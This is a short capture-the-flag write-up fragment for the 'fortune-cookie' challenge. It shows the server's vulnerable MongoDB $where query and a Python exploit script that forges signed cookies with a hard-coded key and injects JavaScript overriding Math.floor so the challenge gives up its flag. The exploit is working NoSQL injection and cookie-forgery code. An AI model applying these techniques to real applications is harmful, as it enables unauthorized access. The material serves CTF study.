 ```js
            const collection = db.collection('posts');

            collection.findOne({ $where: `Math.floor(Math.random() * 0xdeaaaadbeef) === ${favoriteNumber}` })
                .then(result => {
                    if (favoriteNumber > 0x1337 && result) res.end(FLAG);   // ★
                    else res.end('Number not matches. Next chance, please!')
                });

            client.close();

        });
    }
})
```

Exp.py from @v0va

```python
#!/usr/bin/env python3.7

import hmac
import json
import base64
import hashlib
import requests


def myquote(s):
    return ''.join('%' + hex(x)[2:].zfill(2) for x in s.encode())


def sign_cookie(cookie):
    key = b'\xf0\x9f\x90\x88\xf0\x9f\x90\x87'
    digest = hmac.new(key, cookie.encode(), hashlib.sha256).digest()
    signature = base64.b64encode(digest).decode().strip('=')
    return f's:{cookie}.{signature}'


def make_json_cookie(obj):
    cookie = f'j:{json.dumps(obj)}'
    return myquote(sign_cookie(cookie))


def send_injection(injection):
    url = 'http://fortune-cookie.ctf.defenit.kr/posts'
    cookies = {'user': make_json_cookie(injection)}
    return requests.get(url, cookies=cookies).text


def get_flag():
    url = 'http://fortune-cookie.ctf.defenit.kr/flag?favoriteNumber=12345'
    cookies = {'user': sign_cookie('v0va')}
    return requests.get(url, cookies=cookies).text


def main():
    injection = {'$where': 'Math.floor = () => 12345; return false;'}
    send_injection(injection)
    print(get_flag())


if __name__ == '__main__':
    main()
```